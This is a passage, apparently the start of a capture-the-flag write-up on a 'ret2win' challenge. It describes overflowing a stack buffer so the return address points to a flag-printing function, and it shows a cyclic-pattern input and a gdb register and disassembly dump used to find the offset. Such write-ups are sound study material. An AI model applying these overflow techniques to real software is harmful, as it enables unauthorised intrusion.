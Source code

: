 ![d7c1488142ecdfee89738e0cd8fd40c6.png](../_resources/15725d49c91d4dd39ce69b2cea161be6.png)


# Exploit 
ROP ATTACK
GADGET - RET 
We overflow a stack to force RIP to call a required function in order to obtain the flag. 


# Finding offset
```
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
Thank you!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0xb ('\x0b')
RBX: 0x400780 (<__libc_csu_init>:	push   r15)
RCX: 0x7ffff7eb9c27 (<__GI___libc_write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x7ffff7f93743 --> 0xf95670000000000a 
RDI: 0x7ffff7f95670 --> 0x0 
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffddd8 ("AA0AAFAAbA\n")
RIP: 0x400755 (<pwnme+109>:	ret)
R8 : 0xb ('\x0b')
R9 : 0x7ffff7fdab50 (endbr64)
R10: 0xfffffffffffffb6b 
R11: 0x246 
R12: 0x4005b0 (<_start>:	xor    ebp,ebp)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40074e <pwnme+102>:	call   0x400550 <puts@plt>
   0x400753 <pwnme+107>:	nop
   0x400754 <pwnme+108>:	leave  
=> 0x400755 <pwnme+109>:	ret    
   0x400756 <ret2win>:	push   rbp
   0x400757 <ret2win+1>:	mov    rbp,rsp
   0x40075a <ret2win+4>:	mov    edi,0x400926
   0x40075f <ret2win+9>:	call   0x400550 <puts@plt>
[------------------------------------stack-------------------------------------]
```
